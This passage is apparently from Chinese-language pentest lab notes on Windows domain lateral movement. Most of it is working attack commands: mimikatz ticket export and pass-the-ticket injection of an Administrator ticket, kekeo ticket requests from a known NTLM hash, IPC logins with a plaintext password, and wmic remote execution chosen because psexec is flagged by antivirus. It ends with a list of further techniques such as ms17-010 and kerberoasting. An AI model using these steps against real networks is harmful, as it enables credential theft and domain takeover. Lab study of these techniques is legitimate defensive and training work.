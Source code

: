 	mimikatz sekurlsa::tickets /export


然后使用mimikatz进行PTT，输入如下命令：

	# 先清除当前内存中的票据
	mimikatz kerberos:purge
	# 然后注入高权限的票据
	mimikatz kerberos::ptt "C:\ticket\[0;214ba17]-2-1-40e00000-Administrator@krbtgt-GOD.ORG.kirbi"

（2）使用kekeo进行PTT（我实验失败了=-=）

需要已知以下条件：

- 目标域名；
- 域用户名和NTLM Hash；

首先清空缓存中的票据：

	kekeo.exe "kerberos::purge" "exit"

然后利用kekeo和已知条件生成票据：

	kekeo.exe "tgt::ask /user:administrator /domain:god.org /ntlm:a45a7246dd74b64a67f22fd7020f1bd8" "exit"

然后就是导入了：

	kekeo.exe "kerberos::ptt TGT_administrator@GOD.ORG_krbtgt~god.org@GOD.ORG.kirbi" "exit"

## 使用WMI执行命令
psExec被杀的严重，可以考虑使用wmi进行远程控制。如下是不利用工具进行wmi命令执行的方法：

首先建立ipc连接：

	net use \\192.168.52.138\ipc$ "123456789_CG" /user:domain

然后利用wmi执行命令，并将结果输出到res.txt中：

	wmic /node:192.168.52.138 process call create "cmd.exe /c ipconfig >C:\\res.txt"

## 其他
- ms17-010；
- psexec、wmi、smbexec；
- spn扫描：setspn -T god.org -F -Q */*
- keberoast离线爆破NTLM Hash；
- exchange常规信息收集；






[p1]:/media/2021-05-22-1.png
[p2]:/media/2021-05-22-2.png
[p3]:/media/2021-05-22-3.png
[p4]:/media/2021-05-22-4.png